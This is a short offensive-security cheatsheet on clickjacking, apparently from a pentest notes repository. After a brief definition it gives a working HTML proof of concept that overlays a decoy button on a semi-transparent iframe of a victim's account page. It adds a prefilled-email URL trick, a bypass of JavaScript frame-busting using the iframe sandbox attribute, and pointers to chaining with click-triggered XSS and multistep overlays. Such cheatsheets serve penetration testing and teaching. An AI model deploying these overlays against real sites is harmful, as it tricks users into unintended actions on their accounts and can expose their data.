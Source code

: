 ```yaml
---
title: Clickjacking
description: Clickjacking cheatsheet
---
```


# Clickjacking

## Definition

**Clickjacking**, also known as "UI redress attack" or "user interface redress attack," is a type of cyber attack where a malicious website or ad is designed to **trick users into clicking on something** other than what they think they are clicking on. This can be used to steal sensitive information, such as login credentials or personal information, or to perform actions on the user's behalf without their knowledge or consent.

## Cheatsheet

```html
<head>
<style>
#victim_website {
	position:relative;
	width:700px;
	height:520px;
	opacity:0.20;
	z-index:2;
}
#malicious_overlay {
	position:absolute;
	top:495px;
	left:70px;
	z-index:1;
}
</style>
</head>
<body>
	<div id="malicious_overlay">
	    <button>click</button>
	</div>
        <iframe id="victim_website" src="https://example.com/my-account"></iframe>
</body>
```

- Prefilled input : https://example.com/my-account?**email=toto@toto.com**
- Bypass JS script that block iframe like :

```html
<script>
if(top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
</script>
```

Use iframe `sandbox` attribute ([list](https://www.w3schools.com/tags/att_iframe_sandbox.asp)). Like `<iframe id="victim_website" sandbox="allow-forms" src="https://example.com/my-account?email=toto@toto.com"></iframe>`.

- XSS that need a click (so use Clickjacking to do the action)
- Mutlistep clickjacking (click on 2 buttons, use 2 overlays)

## References

- [PortSwigger - Clickjacking](https://portswigger.net/web-security/clickjacking)